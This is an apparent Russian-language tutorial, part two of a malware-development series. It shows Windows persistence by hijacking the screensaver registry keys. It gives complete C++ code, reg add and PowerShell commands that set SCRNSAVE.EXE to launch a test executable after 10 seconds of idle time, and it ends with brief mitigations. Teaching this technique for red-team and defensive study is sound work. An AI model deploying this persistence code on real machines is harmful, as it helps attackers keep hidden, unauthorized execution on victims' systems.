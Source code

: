 \newpage
\subsection{68. Разработка вредоносного ПО: закрепление (persistence) - часть 2. Захват экранной заставки. Пример на C++.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

![pers](./images/52/2022-04-27_03-07.png){width="80%"}    

Этот пост - вторая часть серии статей о техниках и трюках закрепления вредоносного ПО в Windows.    

Сегодня я расскажу о результате собственного исследования ещё одного трюка закрепления: злоупотребление экранными заставками.    

### экранные заставки

Экранные заставки - это программы, которые запускаются после заданного времени бездействия пользователя. Эта функция Windows давно используется злоумышленниками как метод закрепления. Экранные заставки - это PE-файлы с расширением `.scr` по умолчанию, а их настройки хранятся в следующих ключах реестра:    

`HKEY_CURRENT_USER\Control Panel\Desktop\ScreenSaveActive`    

![pers](./images/52/2022-04-27_03-23.png){width="80%"}    

Значение `1` включает экранную заставку.

`HKEY_CURRENT_USER\Control Panel\Desktop\ScreenSaveTimeOut` - задаёт    
тайм-аут бездействия пользователя перед запуском экранной заставки.    
`HKEY_CURRENT_USER\Control Panel\Desktop\SCRNSAVE.EXE` - устанавливает     
путь к приложению для выполнения.    

### практический пример

Рассмотрим практический пример. Допустим, у нас есть *"вредоносное ПО"* из [предыдущей](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html) части `hack.cpp`:   

```cpp
/*
meow-meow messagebox
author: @cocomelonc
*/
#include <windows.h>

int WINAPI WinMain(HINSTANCE hInstance, 
HINSTANCE hPrevInstance, LPSTR lpCmdLine, 
int nCmdShow) {
  MessageBoxA(NULL, "Meow-meow!","=^..^=", MB_OK);
  return 0;
}
```

Скомпилируем его:   

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-mwindows -I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

![pers](./images/52/2022-04-27_02-04.png){width="80%"}    

Сохраним его в папку `Z:\\2022-04-26-malware-pers-2\`:    

![pers](./images/52/2022-04-27_03-29.png){width="80%"}    

Теперь создадим скрипт `pers.cpp`, который создаст ключи реестра для запуска `hack.exe` при бездействии пользователя `10` секунд:    

```cpp
/*
pers.cpp
windows low level persistense via screensaver
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/04/26/malware-pers-2.html
*/
#include <windows.h>
#include <string.h>

int reg_key_compare(HKEY hKeyRoot, char* lpSubKey, 
char* regVal, char* compare) {
  HKEY hKey = nullptr;
  LONG ret;
  char value[1024];
  DWORD size = sizeof(value);
  ret = RegOpenKeyExA(hKeyRoot, lpSubKey, 0, KEY_READ, &hKey);
  if (ret == ERROR_SUCCESS) {
    RegQueryValueExA(hKey, regVal, NULL, NULL, 
    (LPBYTE)value, &size);
    if (ret == ERROR_SUCCESS) {
      if (strcmp(value, compare) == 0) {
        return TRUE;
      }
    }
  }
  return FALSE;
}

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  // malicious app
  const char* exe = "Z:\\2022-04-26-malware-pers-2\\hack.exe";
  // timeout
  const char* ts = "10";
  // activation
  const char* aact = "1";

  // startup
  LONG res = RegOpenKeyEx(HKEY_CURRENT_USER, 
  (LPCSTR)"Control Panel\\Desktop", 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry keys
    RegSetValueEx(hkey, (LPCSTR)"ScreenSaveActive", 0, 
    REG_SZ, (unsigned char*)aact, strlen(aact));
    RegSetValueEx(hkey, (LPCSTR)"ScreenSaveTimeOut", 0, 
    REG_SZ, (unsigned char*)ts, strlen(ts));
    RegSetValueEx(hkey, (LPCSTR)"SCRNSAVE.EXE", 0, 
    REG_SZ, (unsigned char*)exe, strlen(exe));
    RegCloseKey(hkey);
  }
  return 0;
}
```

Как видите, логика здесь самая простая. Мы просто добавляем новые ключи реестра для тайм-аута и пути к приложению. Ключи реестра можно добавить через терминал `cmd`:    

```cmd
reg add "HKCU\Control Panel\Desktop" /v ScreenSaveTimeOut /d 10
reg add "HKCU\Control Panel\Desktop" /v SCRNSAVE.EXE \
/d Z:\2022-04-26-malware-pers-2\hack.exe
```

или с помощью команд `powershell`:

```powershell
New-ItemProperty -Path 'HKCU:\Control Panel\Desktop\' \
-Name 'ScreenSaveTimeOut' -Value '10'
New-ItemProperty -Path 'HKCU:\Control Panel\Desktop\' \
-Name 'SCRNSAVE.EXE' -Value \
'Z:\2022-04-26-malware-pers-2\hack.exe'
```

Но так как я люблю писать код, я хотел показать, как сделать это с помощью нескольких строк кода.    

### Демонстрация

Скомпилируем наш скрипт `pers.cpp`:   

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/52/2022-04-27_02-06.png){width="80%"}    

Для чистоты эксперимента сначала проверим ключи реестра на машине жертвы и удалим их, если они существуют:    

```powershell
reg query "HKCU\Control Panel\Desktop" /s
Remove-ItemProperty -Path "HKCU:\Control Panel\Desktop" \
-Name 'ScreenSaveTimeOut'
Remove-ItemProperty -Path "HKCU:\Control Panel\Desktop" \
-Name 'SCRNSAVE.EXE'
```

![pers](./images/52/2022-04-27_03-43.png){width="80%"}    

![pers](./images/52/2022-04-27_03-48.png){width="80%"}    

Затем запускаем `pers.exe` и проверяем снова:   

```powershell
.\pers.exe
reg query "HKCU\Control Panel\Desktop" /s
```

![pers](./images/52/2022-04-27_04-14.png){width="80%"}    

Как видите, новый ключ добавлен, как и ожидалось.    
Теперь проверим всё в действии: выйдем из системы, войдём снова и подождём `10` секунд или просто остаёмся неактивными `10` секунд:    

![pers](./images/52/2022-04-27_04-13_1.png){width="80%"}    

Pwn! Всё работает идеально :)    

После завершения эксперимента удаляем ключи:    

```powershell
Remove-ItemProperty -Path "HKCU:\Control Panel\Desktop" \
-Name 'ScreenSaveTimeOut'
Remove-ItemProperty -Path "HKCU:\Control Panel\Desktop" \
-Name 'SCRNSAVE.EXE'
reg query "HKCU\Control Panel\Desktop" /s
```

![pers](./images/52/2022-04-27_04-18.png){width="80%"}    

### заключение

Проблема этого метода закрепления в том, что сессия завершится, когда пользователь вернётся и система перестанет быть неактивной. Однако красные команды могут выполнять свои операции (например, майнинг) во время отсутствия пользователя. Если экранные заставки отключены групповой политикой, этот метод нельзя использовать для закрепления. Также можно заблокировать выполнение `.scr` файлов из нестандартных мест.

[This trick in MITRE ATT&CK](https://attack.mitre.org/techniques/T1546/002/)    
[RegOpenKeyEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regopenkeyexa)    
[RegSetValueEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regsetvalueexa)    
[RegCloseKey](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regclosekey)    
[Remove-ItemProperty](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/remove-itemproperty?view=powershell-7.2)    
[reg query](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/reg-query)    
[исходный код на github](https://github.com/cocomelonc/2022-04-26-malware-pers-2)    
